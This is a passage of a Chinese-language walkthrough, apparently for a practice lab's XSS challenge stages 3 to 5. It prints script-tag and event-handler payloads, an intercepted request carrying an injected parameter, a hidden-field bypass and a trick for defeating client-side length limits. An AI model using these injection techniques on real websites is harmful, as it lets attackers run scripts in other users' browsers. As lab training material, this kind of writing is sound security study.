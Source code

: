 参数`p1`命中的`< >` 特殊字符被转义。

	 <b>"&quot;&gt;&lt;script&gt;alert(document.domain);&lt;/script&gt;"</b> 

如何绕过转义呢？

	字符    替换后
	& (& 符号)    &amp;
	" (双引号)    &quot;，除非设置了 ENT_NOQUOTES
	' (单引号)    设置了 ENT_QUOTES 后， &#039; (如果是 ENT_HTML401) ，或者 &apos; (如果是 ENT_XML1、 ENT_XHTML 或 ENT_HTML5)。
	< (小于)    &lt;
	> (大于)    &gt;

`javascript`在`<b>`标签里面不能执行成功

	<b>"onmouseover=confirm(1)"</b> 

但是在`<input>`倒是可以。

	<input name=test value='' onmouseover=confirm(1)>


在`p2`参数里面。输入`payload`。

抓包修改参数`p2`

	p1=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E&p2="><script>alert(document.domain);</script>

输出内容

	<b>"><script>alert(document.domain);</script></b>


##### Stage #4

输入

	<>&

输出内容

	&lt;&gt;&amp;&quot;

和第三关一样，`p1`和`p2`参数都被过滤了，有一个隐藏的表单`p3`没有被过滤。在`p3`中输入`payload`。

	&lt;&gt;&amp;&quot;

	"><script>alert(document.domain);</script>


##### Stage #5

长度限制

	length limited text box

	<input type="text" name="p1" maxlength="15" size="30" value="111111111111111">

只允许输入15个字符。如何绕过。

只是在前端进行设置的，修改其中的`maxlength`为50。

